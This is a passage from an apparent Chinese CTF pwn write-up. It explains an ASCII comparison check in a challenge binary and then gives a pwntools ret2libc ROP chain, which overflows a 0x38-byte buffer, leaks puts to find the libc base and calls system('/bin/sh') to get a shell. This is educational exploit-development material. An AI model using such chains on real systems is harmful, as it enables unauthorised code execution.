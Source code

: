 这里 v6 在程序中储存的是整数，所以这里要输入当前整数对应的 ASCII 字符 (chr)，这样在程序中储存的值大小就一样  
如果不理解，可以在 gdb 里面看一眼，这里我们就输入了个'a\\n'  
[![](assets/1708654729-7e1ceb8b567b91d0acfc9f463a2eac58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012156-8bfb7e52-d014-1.png)  
这里看到是这样比较的

[![](assets/1708654729-9166648d6eeb91d6ec4747b31fefeb91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012203-90216f00-d014-1.png)  
其实就是比较的 ASCII 码值  
之后就是写 rop 链了

```bash
pl='a'*0x38+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(0x40125D)
sl(pl)
puts_addr=u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-libc.symbols['puts']
leak('libc_base ',libc_base)

system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b"/bin/sh\x00"))

pl=b'a'*0x38 + p64(ret) + p64(rdi) +p64(binsh) + p64(system)
sl(pl)
```

[![](assets/1708654729-8e70eda8dac4aeffeeca5de9974fff58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012217-98e5c672-d014-1.png)
